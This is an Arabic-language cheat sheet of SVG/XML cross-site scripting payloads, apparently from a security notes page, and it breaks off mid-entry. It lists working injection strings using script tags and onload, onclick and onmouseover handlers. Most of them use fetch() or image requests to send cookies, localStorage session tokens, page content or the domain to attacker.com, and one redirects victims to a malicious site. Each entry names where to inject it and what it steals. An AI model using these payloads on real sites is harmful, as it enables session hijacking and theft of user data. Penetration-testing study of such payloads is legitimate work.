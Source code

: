 
## جميع المحاولات الممكنة للحقن المستخدمة في SVG وXML
في الحقن المستخدمة في SVG وXML، المحاولات تركز على إدراج JavaScript داخل هياكل SVG أو XML لتنفيذ شيفرات ضارة. سأقسم المحاولات إلى فئتين:
1. **الحقن اليدوية**: للاختبار اليدوي عبر نقاط الإدخال العرضة.
2. **الحقن للأتمتة**: للاستخدام مع سكربتات أو أدوات آلية.

### 1. الحقن اليدوية
تُستخدم هذه الحقن عند اختبار الثغرة يدويًا عبر إدخال شيفرة في حقول النماذج، معلمات URL، تحميل ملفات، أو واجهات API. الهدف هو تنفيذ JavaScript عبر SVG/XML.

#### أ. حقن SVG باستخدام وسم `<script>`
{ #XSS_Idea_for_script_tag /  #XSS_Idea_for_SVG_tag  / }
إدراج شيفرة JavaScript داخل وسم `<script>` في SVG.
- **الحقن**: `<svg><script>alert('XSS')</script></svg>`
  - **الإدخال**: أدخل في حقل نصي: `<svg><script>alert('XSS')</script></svg>` أو قم بتحميل ملف SVG.
  - **كيف يعمل**: ينفذ تنبيهًا عند عرض SVG.
  - **متى يُستخدم؟**: لتأكيد وجود ثغرة XSS.
- **الحقن**: `<svg><script>fetch('http://attacker.com/log?c='+encodeURIComponent(document.cookie))</script></svg>`
  - **الإدخال**: أدخل في وصف الملف الشخصي: `<svg><script>fetch('http://attacker.com/log?c='+encodeURIComponent(document.cookie))</script></svg>`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط إلى خادم المهاجم.
  - **متى يُستخدم؟**: لسرقة بيانات الجلسة.
- **الحقن**: `<svg><script>document.location='http://attacker.com'</script></svg>`
  - **الإدخال**: `https://example.com/?data=<svg><script>document.location='http://attacker.com'</script></svg>`
  - **كيف يعمل**: يعيد توجيه المستخدم إلى موقع ضار.
  - **متى يُستخدم؟**: لإعادة التوجيه الخبيث.
- **الحقن**: `<svg><script>fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})</script></svg>`
  - **الإدخال**: قم بتحميل ملف SVG يحتوي على: `<svg><script>fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})</script></svg>`
  - **كيف يعمل**: يرسل محتوى الصفحة إلى الخادم.
  - **متى يُستخدم؟**: لاستخراج محتوى DOM.
- **الحقن**: `<svg><script>new Image().src='http://attacker.com/log?s='+encodeURIComponent(localStorage.getItem('token'))</script></svg>`
  - **الإدخال**: أدخل في حقل تعليق: `<svg><script>new Image().src='http://attacker.com/log?s='+encodeURIComponent(localStorage.getItem('token'))</script></svg>`
  - **كيف يعمل**: يرسل رمز الجلسة من `localStorage`.
  - **متى يُستخدم؟**: لسرقة بيانات التخزين.

#### ب. حقن SVG باستخدام الأحداث
{ #XSS_Idea_for_SVG_tag / #XSS--ALL--Event--Payload  }
استخدام أحداث SVG (مثل `onload`، `onclick`) لتنفيذ JavaScript.
- **الحقن**: `<svg onload="alert('XSS')"></svg>`
  - **الإدخال**: أدخل في حقل نصي: `<svg onload="alert('XSS')"></svg>`
  - **كيف يعمل**: ينفذ تنبيهًا عند تحميل SVG.
  - **متى يُستخدم؟**: لتأكيد الثغرة بسرعة.
- **الحقن**: `<svg onload="fetch('http://attacker.com/log?c='+document.cookie)"></svg>`
  - **الإدخال**: `https://example.com/?data=<svg onload="fetch('http://attacker.com/log?c='+document.cookie)"></svg>`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط عند تحميل SVG.
  - **متى يُستخدم؟**: لسرقة البيانات تلقائيًا.
- **الحقن**: `<svg onclick="fetch('http://attacker.com/log?d='+document.domain)"></svg>`
  - **الإدخال**: أدخل في وصف: `<svg onclick="fetch('http://attacker.com/log?d='+document.domain)"></svg>`
  - **كيف يعمل**: يرسل النطاق عند النقر على SVG.
  - **متى يُستخدم؟**: لتتبع التفاعل.
- **الحقن**: `<svg onmouseover="new Image().src='http://attacker.com/log?l='+window.location.href"></svg>`
  - **الإدخال**: قم بتحميل ملف SVG يحتوي على: `<svg onmouseover="new Image().src='http://attacker.com/log?l='+window.location.href"></svg>`